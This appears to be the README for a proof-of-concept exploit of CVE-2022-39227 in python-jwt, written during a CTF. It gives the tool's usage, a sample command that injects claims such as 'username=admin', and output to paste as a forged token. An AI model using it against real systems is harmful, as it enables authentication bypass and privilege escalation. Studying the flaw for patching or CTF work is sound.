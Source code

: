 # CVE-2022-39227
CVE-2022-39227 : Proof of Concept 

Proof of concept for the [CVE-2022-39227](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-39227). According to this CVE, there is a flaw in the JSON Web Token verification. It is possible with a valid token to re-use its signature with modified claims. 

Required:
1. A valid JSON Web Token.
2. The backend needs to use the python library "python-jwt" in the version < 3.3.4

For the ease of use I wrote a simple PoC during a CTF:
``` 
usage: CVE-2022-39227-PoC [-h] -j TOKEN -i CLAIM

Proof of Concept for the JWT verification bug in python-jwt version < 3.3.4

options:
  -h, --help            show this help message and exit
  -j TOKEN, --jwt_token TOKEN
                        Original and valid JWT Token returned by the application
  -i CLAIM, --injected_claim CLAIM
                        Inject claim using the form "key=value", e.g. "username=admin". Use "," for more claims
                        (e.g. username=admin,id=3)
```
Usage:

`python3 cve_2022_39227.py -j <JWT-WEBTOKEN> -i "<KEY>=<VALUE>"`

Returns:
```
{"  <SNIP>":"","protected":"eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9", "payload":"<SNIP>","signature":"18-caQyY-mnreIUb53kk5qI-axRoxSzQKyT033yOdUw"}
```
The return value is a mix form of JSON and compact representation. You need to paste the entire value including "{" and "}" as your new JWT Web token.
